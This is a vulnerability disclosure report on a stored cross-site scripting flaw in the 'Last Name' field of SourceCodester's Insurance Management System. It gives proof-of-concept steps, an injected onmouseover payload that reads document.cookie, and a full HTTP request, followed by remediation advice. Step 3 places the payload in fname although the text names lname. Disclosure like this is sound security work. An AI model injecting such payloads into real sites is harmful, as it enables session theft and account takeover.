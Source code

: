# Stored Cross-Site Scripting Vulnerability in SourceCodester Online Insurance Management System

## Vendor and Product Information:

- **Vendor:** Sourcecodester
- **Product:** Insurance Management System
- Product URL: [Insurance Management System](https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html)

## Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Insurance Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Last Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.

## Issue Details

- **Vulnerability Name:** Stored XSS in Last Name
- **Severity: High**
- **Affected URL:** http://localhost/e-insurance/Script./core/new_account
- **Affected Parameter:** lname
- **HTTP Method:** POST

## Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Last Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Last Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.

## Proof Of Concept

1. Configure a web proxy in your browser.
2. Navigate to the URL in the browser http://localhost/e-insurance/Script./ and click on “**New Account**”.
3. Fill in the desired data in the input fields and click on Create Account. Intercept the request in the web proxy. Modify the **lname** parameter as shown below and send the request to the server.
    
    ```bash
    fname=<h1+onmouseover=confirm(document.cookie)>Demo</h1>&lname=Demo&gender=Male&phone=889790987&city=Demo&street=Demo&email=demo@demo.com&password=12345678&submit=1
    ```
    
4. The account is successfully created.
5. In the browser having admin account logged in, navigate to the users section and see the XSS being executed with the authentication cookies as well, which will result in the Account Takeover of **Admin.**

https://drive.google.com/file/d/1yTIeXAPs3PJcQwj9gxhvs92zTdBwKGVB/view?usp=sharing

## Payload:

```bash
fname=demo&lname=<h1+onmouseover=confirm(document.cookie)>Demo</h1>&gender=Male&phone=889790987&city=Demo&street=Demo&email=demo@demo.com&password=12345678&submit=1
```

## Request:

```bash
POST /e-insurance/Script./core/new_account HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 350
Cookie: PHPSESSID=klf9ln8ogrll5cv5gdusqnln9u; __insuarance__logged=1; __insuarance__key=AGURMU83J20CB8T91A05

fname=demo&lname=<h1+onmouseover=confirm(document.cookie)>Demo</h1>&gender=Male&phone=889790987&city=Demo&street=Demo&email=demo@demo.com&password=12345678&submit=1
```

## Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites. 

## Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.

## References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/

## Weakness Enumeration:

[CWE-79](https://cwe.mitre.org/data/definitions/79.html)

---

This report highlights the Stored XSS vulnerability present in the lname parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.
